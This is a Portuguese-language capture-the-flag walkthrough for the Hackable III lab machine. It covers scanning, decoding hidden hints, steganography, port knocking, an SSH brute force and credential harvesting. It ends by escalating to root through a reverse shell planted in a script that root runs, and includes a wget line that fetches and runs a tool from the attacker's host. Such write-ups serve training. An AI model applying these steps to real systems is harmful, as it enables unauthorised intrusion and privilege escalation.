 <h2>Começamos com uma varredura simples com nmap e uma varredura por diretórios.</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/1.JPG)

<h2>Lendo o código fonte, vemos uma mensagem do desenvolvedor para alguém - jubiscleudo - e mencionando sobre o port knocking, logo sabemos que tem algum serviço oculto. Também encontramos o caminho para uma página de login </h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/2.JPG)

<h2>Analisando o arquivo robots.txt vemos que a pasta config não está permitada -> Disallow: /config
acessando ela temos um arquivo chamada 1.txt, usando o hashanalyser(https://www.tunnelsup.com/hash-analyzer/) sabemos que se trata de um base64, fazendo o decode temos o seguinte: 10000</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/3.JPG)
![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/3.1.JPG)


<h2>Procurando nos outros diretórios(/css) encontrei o 2.txt, se trata de um Brainfuck, pesquisando por decode brainfuck encontramos algumas opções e temos como resultado 4444.</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/4.JPG)
![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/4.1.JPG)

<h2>Vemos uma wordlist na pasta backup que nos será útil mais tarde</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/5.JPG)


<h2>Pesquisando um pouco sobre port knocking nota-se que por default ele vem com as portas 7000,8000,9000 (3 portas são necessárias), seguindo essa lógica temos apenas os valores 1 e 2, existem 3 formas de encontrar o 3 arquivo.</h2>

<h3>1° FORMA: Fazendo uma varredura de diretórios por extensão(os 2 primeiros eram txt, o 3° não é! por isso sempre faça uma varredura "genérica")</h3>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/6.1.JPG)


<h3>2° FORMA: Na varredura também podemos encontar um outro arquivo html(home.html), acessando ele e vendo a fonte vemos um comentário bem explícito que existe algum arquivo.jpg que temos que buscar, isso simplificaria muito a busca</h3>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/6.2.JPG)
![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/6.2.1.JPG)


<h3>3° FORMA: Na página de login que encontramos anteriormente, tentando fazer login vemos que não acontece nada pois ainda está em desenvolvimento, porém vendo a fonte encontramos nosso 3.jpg lá!</h3>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/6.3.JPG)


<h2>Abrindo o 3.jpg já percebe-se que se trata de esteganografia, usaremos o steghide, usando o info vemos que existe algo lá dentro, agora extraimos ele(ao pedir senha pode apenas apertar enter já que o arquivo não possui senha). Assim temos nossa última "senha: 65535"</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/7.JPG)


<h2>Usaremos o knock para "abrir" o serviço oculto, usando a mesma ordem das senhas 1-2-3, se trata de um ssh</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/8.JPG)


<h2>Agora entra a wordlist que encontramos antes, como usuário temos o jubiscleudo, faremos um brute force e entraremos via ssh</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/9.JPG)


<h2>A 1° flag está oculta, ls -la</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/10.JPG)



<h2>Dando uma olhada nos arquivos de /var/www/html conseguimos as credenciais para outro usuário</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/11.JPG)



<h2>Após fazer login no usuário hackable_3 executaremos o [pspy](link_pspy) - periodicamente  o root(UID=0) executado "python3 /scripts/to_hackable_3.py", indo até a pasta não existe o arquivo, então basta criarmos um arquivo com o mesmo caminho que será executado pelo root</h2>

<h4>
atacante: python3 -m http.server
vítima: wget http://ip_kali:8000/pspy
	chmod +x
	./pspy
</h4>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/12.JPG)


<h2>Agora é hora da criatividade, o root está executando nosso arquivo python, no nosso caso queremos conseguir uma reverse shell</h2>

<h2>para o reverse shell, usei o de python <https://shellgenerator.github.io> </h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/13.JPG)


<h2>Deixamos nosso netcat ouvindo e aguardamos o processo executa nosso arquivo</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/14.JPG)

